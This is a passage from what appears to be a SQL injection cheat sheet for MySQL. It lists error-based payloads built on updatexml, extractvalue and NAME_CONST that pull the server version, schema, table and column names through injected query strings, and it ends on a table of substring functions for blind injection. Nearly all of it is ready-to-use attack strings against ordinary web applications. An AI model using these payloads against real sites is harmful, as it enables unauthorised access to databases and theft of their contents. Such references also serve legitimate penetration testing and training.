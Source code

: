 Shorter to read:

```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```


### MYSQL Error Based - Extractvalue function

Works with `MySQL >= 5.1`

```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_column,CHAR(126)) FROM data_schema.data_table LIMIT data_offset,1)))--
```


### MYSQL Error Based - NAME_CONST function (only for constants)

Works with `MySQL >= 5.0`

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```


## MYSQL Blind

### MYSQL Blind with substring equivalent

| Function | Example | Description |
| --- | --- | --- |
| `SUBSTR` | `SUBSTR(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `SUBSTRING` | `SUBSTRING(version(),1,1)=5` | Extracts a substring from a string (starting at any position) |
| `RIGHT` | `RIGHT(left(version(),1),1)=5` | Extracts a number of characters from a string (starting from right) |
| `MID` | `MID(version(),1,1)=4` | Extracts a substring from a string (starting at any position) |
| `LEFT` | `LEFT(version(),1)=4` | Extracts a number of characters from a string (starting from left) |

Examples of Blind SQL injection using SUBSTRING or another equivalent function:
